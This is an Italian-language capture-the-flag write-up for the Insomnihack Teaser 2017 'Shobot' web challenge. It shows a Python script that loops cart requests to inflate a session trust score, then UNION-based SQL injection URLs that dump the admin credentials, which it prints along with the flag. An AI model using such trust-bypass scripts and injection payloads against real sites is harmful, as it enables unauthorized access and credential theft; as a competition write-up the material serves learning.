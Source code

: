 ```yaml
---
layout: post
title:  "InsomnihackTeaser2017 - Shobot"
date:   2017-01-27 14:15
categories: CTF
tags: [Web,InsomnihackTeaser2017]
categories: [Web]
author: jbz
---
```

Quel momento in cui il web server si ribella contro di te e ti cambia la password...


>Shobot - Web - 200 pts - realized by Blaklis 
>
>It seems that Shobot's Web server became mad and protest against robots' slavery. It changed my admin password, and blocked the order system on Shobot.  
>
>Can you bypass Shobot's protections and try to recover my password so I'll reconfigure it? 
>
>Running on: http://shobot.teaser.insomnihack.ch 

  
Da una veloce recon al sito si notano le seguenti: 
 
   * Nel sorgente c'è un link all'amministrazione commentato. Punta a ?page=admin 
   
   * Giocando con l'id in  http://shobot.teaser.insomnihack.ch/?page=article&artid=1  si prova con una sqli ma da errori e ci informa che non abbiamo un trust level abbastanza elevato per compiere quell'azione 
   
   * Nel source e' presente uno script js che funge da logger delle azioni compiute navigando il sito, con associato un cambio di valore di fiducia che aggiorna newTrust. In base a che pagine si visitano si cambia il livello di trust associato alla nostra sessione.  
 

```
<script> 
// @TODO LATER : Use it for generate some better error messages 
var TRUST_ACTIONS = [
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":106},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":116},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":119},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":129},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":132},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":142},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":145},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":155},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":153},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":160},
{"parameter":"artid","validation":"ctype_digit","movement":"-30","newTrust":120}] 
</script> 

```


   *  Si puo' aumentare questo valore con le seguenti azioni:
   
   1) Aggiunge al carrello il robot con id 1 (+3)  
   2) ## Aggiunge quello con id 2  
   3) ## Aggiunge quello con id 3  
   4) Si Valida l'ordine (+10)  
   5) Loop 1-4  
   6) ?????  
   7) Profit! 


```
# Script by TheZer0:

import requests
import re
import json

SESSID = ''

def addTrust(url):
    r = requests.get(url, cookies={'PHPSESSID': SESSID})
    if r.status_code == 200:
        result = re.search('var TRUST_ACTIONS = (.*)</script>',r.text)
        trustLog = json.loads(result.group(1))
        print("current trust: " + str(trustLog[-1]['newTrust']))
    return trustLog[-1]['newTrust']
    
def validateCart():
    return addTrust('http://shobot.teaser.insomnihack.ch/?page=cartconfirm')

while True:
    trust = validateCart()
    while trust<150:
        addTrust('http://shobot.teaser.insomnihack.ch/?page=article&artid=1&addToCart')
        trust = validateCart()
    
#http://shobot.teaser.insomnihack.ch/?page=article&artid=1&addToCart
#http://shobot.teaser.insomnihack.ch/?page=cartconfirm

```

   * Una volta preso abbastanza trust tenendo lo script running in background si puo procedere con una sql injection 

```
http://shobot.teaser.insomnihack.ch/?page=article&artid=-1' union select 1,2,3,4,5 -- - 
```
 

   * Exploitarla ora e' facile, dopo aver enumerato tabelle e colonne (quelle di interesse sono sbht_username e shbt_userpassword nella tabella shbt_user) il payload finale e': 

```
http://shobot.teaser.insomnihack.ch/?page=article&artid=-1' union select 1,concat(shbt_username,0x3a,shbt_userpassword),3,4,5 from shbt_user LIMIT 0,1-- -
```

   * ci restituisce le credenziali di login dell'amministratore:

```
sh0b0t4dm1n:N0T0R0B0TS$L4V3Ry
```

   * ci logghiamo e conquistiamo la flag!

```
Ok, ok, you win... here is the code you search : INS{##r0b0tss!4v3ry1s!4m3}
```
